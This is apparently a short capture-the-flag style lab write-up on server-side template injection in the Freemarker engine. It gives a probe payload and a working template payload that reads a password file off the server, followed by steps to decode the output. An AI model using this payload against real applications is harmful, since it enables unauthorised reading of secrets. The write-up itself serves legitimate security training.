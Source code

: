 

> This lab uses the Freemarker template engine
- Good write up -> https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack

1. Log in into the application
2. Edit any template;
3. Insert the following payload;

```
${object.getClass()}
```

![](/static/img/Pasted_image_20231121131920.png)

4. Using the following payload, you can get the `password` from the user

![](/static/img/Pasted_image_20231121172733.png)

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}

```

5. Look at the end, numbers in hex, convert to ascii

![](/static/img/Pasted_image_20231121172953.png)

![](/static/img/Pasted_image_20231121173031.png)

